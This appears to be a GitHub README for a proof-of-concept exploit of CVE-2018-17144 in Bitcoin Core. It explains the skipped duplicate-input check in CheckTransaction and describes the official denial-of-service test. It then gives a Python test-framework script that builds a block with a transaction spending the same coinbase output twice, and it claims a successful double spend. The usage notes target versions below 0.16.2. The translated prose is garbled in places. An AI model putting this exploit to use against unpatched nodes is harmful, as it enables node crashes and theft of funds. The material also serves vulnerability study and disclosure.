 # PoC of BitcoinCore Denial-Of-Service and DoubleSpending CVE-2018-17144
On 18/19 September, bitcoin Core, the mainstream client of Bitcoin, published an article on the serious security of its code.
A denial-of-service vulnerability exploitable by miners has been discovered in Bitcoin Core versions 0.14.0 up to 0.16.2. It is recommended to upgrade any of the vulnerable versions to 0.16.3 as soon as possible. 
bitcoincore.org : Security issue CVE-2018-17144: it was discovered that older versions of Bitcoin Core will crash if they try to process a block containing a transaction that attempts to spend the same input twice. Such blocks are invalid, so they can only be created by a miner willing to sacrifice their allowed income for creating a block of at least 12.5 BTC (about $80,000 USD as of this writing). This release eliminates the crash, allowing the software to quietly reject such invalid blocks.
# Vulnerability disclosure
On the master code branch of Bitcoin Core, commit b8f8019 fixes this vulnerability, such as :  https://github.com/bitcoin/bitcoin/commit/b8f801964f59586508ea8da6cf3decd76bc0e571
This code is located in the CheckBlock() function in src/validation.cpp, which receives new in the node.
The block is called. The meaning of the CheckTransaction() function called on line 3125 and its third argument can be
Analyze according to its code implementation.
``` 
bool CheckTransaction(const CTransaction& tx, CValidationState &state, bool CheckDuplicateInputs)
{
  // ......
  // Check for duplicate inputs - note that this check is slow so we skip it in CheckBlock
  if (fCheckDuplicateInputs) {
    std::set<COutPoint> vInOutPoints;
    for (const auto& txin : tx.vin)
    {
      if (!vInOutPoints.insert(txin.prevout).second)
        return state.DoS(100, false, REJECT_INVALID, "bad-txns-inputs-duplicate");
    }
    }
    // ...... 
}
```
####  CheckTransaction() function
The CheckTransaction() function detects incoming transaction messages (CTransaction&tx), where
This includes detecting whether a transaction has a double Spending. The detection scheme is very simple and will compare this to all Coin used in the transaction.
(Ttex.prevout in the code, which represents UTXO in Bitcoin transactions. This article is followed by the word Coin.
Representation, in order to be consistent with the code), is recorded in std::set, if it is found that a record is repeatedly recorded twice, it will return
Back to the failed message (state.DoS), this message will eventually be fed back to the sender of the block through the P2P channel.
Based on the comments section in the code snippet, it can be seen that this detection code is in the process of being called by the CheckBlock() function.
It is considered redundant and time consuming, and is skipped by setting the third parameter of the function to False.
CheckBlock() performs a selection to skip the double-check, because its subsequent actions will be more for transactions in the entire block.
Complex and comprehensive inspection. However, these inspection codes failed to detect and dispose of certain anomalies as expected.
Caused the existence of a loophole.

## DoS Attack PoC
Bitcoin's master code branch, commit b8f8019 (the vulnerability fix mentioned earlier)
The child commit 9b4a36e gives the validation code for the vulnerability.
This test code written in Python is located at test/functional/p2p_invalid_block.py
In the script. The script builds a test network, and the test code can be connected via RPC interface, P2P interface, etc.
Go to the target node and send test data, such as maliciously constructed block data, transaction information, and so on.
The function of the trial code is to find the second transaction (vtx[2]) in the block2_orig block and enter the transaction into it.
The first Coin(vtx[2].vin[0]) is repeatedly added to the input sequence to construct a vtx[2].vin[0]
Make a double spend transaction message. As shown in line 92, when the block2_orig block is sent to the node side of the fixed vulnerability,
The node will receive a refusal to receive the message, and the message content is “bad-txns-duplicate”.
If you use the code for this test to test a node that has not been fixed.
The block data maliciously constructed by the test script caused the target node to crash, resulting in the Python script and the node process.
The P2P connection between them is broken, causing a ConnectionResetError to be thrown.

## Double Spend Attack PoC

The official PoC gives an indication of the DoS attack. However, this PoC is in a test network with only one node
Run, and the unlock script for all transaction data is set to "anyone can spend." Due to its particularity, for
Verify that the double-spend attack lacks a certain persuasive power. Therefore, this article is based on the test framework of Bitcoin Core.

The three roles in the test are shown in As N0 and N1. N0 stands for attacker maliciously written using Python programs
P2P service, constructing malicious block data; N1 represents one of many normal nodes, and is a neighbor node of N0.Pass the P2P interface for message delivery. The key code of the test script is as follows.


``` 
def run_test(self):
  # Preparation Works ...... # Generate the block1 to let node0 get 50 BTC as the initial funding
  block1 = create_block(tip, create_coinbase(height, n0_pubk), block_time)
  block1.solve()
  node0.p2p.send_blocks_and_test([block1], node0, success=True, timeout=60)
  # Mature the block, make the mined BTC usable. node0.generatetoaddress(100, node0.get_deterministic_priv_key().address)
  assert(node0.getbalance() == 50) # node0 get the reward as a miner
  # craft a new transaction, which double spend the coinbase tx in block1
  tx2_raw = node0.createrawtransaction(
    inputs = [{"txid": block1.vtx[0].hash, "vout": 0}, {"txid": block1.vtx[0].hash, "vout": 0}], 
    outputs = {n1_addr: 100}
  )
  tx2_sig = node0.signrawtransactionwithwallet(tx2_raw)
  assert_equal(tx2_sig["complete"], True)
  tx2_hex = tx2_sig["hex"]
  tct2 = CTransaction()
  tct2.deserialize(BytesIO(hex_str_to_bytes(tx2_hex)))
  # Preparation for generate block2 ......
  block2 = create_block(tip, create_coinbase(height), block_time)
  block2.vtx.extend([tct2])
  block2.hashMerkleRoot = block2.calc_merkle_root()
  block2.solve()
  node0.p2p.send_blocks_and_test([block2], node0, success=True, timeout=60)
  # Check the balances
  assert(node0.getbalance() == 0)
  assert(node1.getbalance() == 100)
  self.log.info("Successfully double spend the 50 BTCs.")
```

### Usage Notes : 
 - It Directly Work with :  https://github.com/bitcoin/bitcoin/tree/master/test/functional/test_framework
 - Move The PoC To the Folder Containg the Bitcoin Soursecode
 - Version Bitcoin < 0.16.2
 - Don't Use It for maliciously Activity
 




